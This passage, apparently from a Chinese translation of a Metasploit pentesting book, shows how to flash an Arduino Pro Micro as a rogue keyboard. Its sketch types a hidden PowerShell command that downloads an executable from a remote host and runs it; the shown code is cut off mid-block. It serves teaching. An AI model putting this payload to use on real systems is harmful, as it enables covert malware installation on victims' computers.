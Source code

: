单击“确定”按钮将强制所有流量转到端口`8080`上的前一个地址，这只是我们的 autopwn 服务器的地址。

# Metasploit 和 Arduino - 致命的组合

基于 Arduino 的微控制器板是微小而不寻常的硬件，当涉及到渗透测试时，它们可以充当致命武器。一些 Arduino 板支持键盘和鼠标库，这意味着它们可以作为 HID 设备：

![](img/805955d7-654d-41b1-a4c5-153611bc715b.jpg)

因此，这些小型 Arduino 板可以偷偷地执行诸如键盘输入、鼠标移动和点击等人类动作，以及许多其他操作。在本节中，我们将模拟 Arduino Pro Micro 板作为键盘，从远程站点下载并执行我们的恶意载荷；然而，这些小板没有足够的内存来保存载荷，因此需要下载。

有关使用 HID 设备进行利用的更多信息，请参阅 USB Rubber Ducky 或 Teensy。

**Arduino Pro Micro**在诸如[`www.aliexpress.com/`](https://www.aliexpress.com/)等知名购物网站上的价格不到 4 美元。因此，使用 Arduino Pro Micro 比 Teensy 和 USB Rubber Ducky 要便宜得多。

使用其编译器软件配置 Arduino 非常容易。精通编程概念的读者会发现这个练习非常容易。

有关设置和开始使用 Arduino 的更多信息，请参阅[`www.arduino.cc/en/Guide/Windows`](https://www.arduino.cc/en/Guide/Windows)。

让我们看看我们需要在 Arduino 芯片上烧录的代码：

```
#include<Keyboard.h>
void setup() {
delay(2000);
type(KEY_LEFT_GUI,false);
type('d',false);
Keyboard.releaseAll();
delay(500);
type(KEY_LEFT_GUI,false);
type('r',false);
delay(500);
Keyboard.releaseAll();
delay(1000);
print(F("powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('http://192.168.10.107/pay2.exe','%TEMP%\\mal.exe'); Start-Process \"%TEMP%\\mal.exe\""));
delay(1000);
type(KEY_RETURN,false);
```